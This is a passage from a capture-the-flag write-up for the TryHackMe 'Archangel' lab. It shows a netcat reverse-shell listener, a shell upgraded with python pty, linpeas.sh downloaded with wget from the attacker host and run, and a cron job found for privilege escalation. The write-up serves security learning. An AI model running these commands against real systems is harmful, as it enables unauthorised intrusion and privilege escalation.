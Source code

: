 I first import python3 into the shell

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/$ ^Z
[1]+  Stopped                 nc -lvnp 1234
root@kali:~/tryhackme/archangle# stty raw -echo
root@kali:~/tryhackme/archangle# fg

www-data@ubuntu:/$
```

I can now read the second flag

![flag2](/assets/archangel/flag2.png)


Exploiting archangel User

To start, I uploaded and ran linpeas.sh

```
www-data@ubuntu:/tmp$ wget 10.2.8.75/linpeas.sh

--2021-02-05 01:43:42--  http://10.2.8.75/linpeas.sh
Connecting to 10.2.8.75:80... connected.
HTTP request sent, awaiting response... 200 OK                                                                                                                                              
Length: 229696 (224K) [text/x-sh]                                                             
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 224.31K  61.4KB/s    in 3.7s

2021-02-05 01:43:47 (61.4 KB/s) - 'linpeas.sh' saved [229696/229696]
                                               
www-data@ubuntu:/tmp$ bash linpeas.sh
```


Looking through the results, I find a cronjob for the archangel user

```
[+] Cron jobs 

.............................................

*/1 *   * * *   archangel /opt/helloworld.sh
```

Checking out this file, I see it runs a basic echo script.

```
www-data@ubuntu:/opt$ cat helloworld.sh 
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```
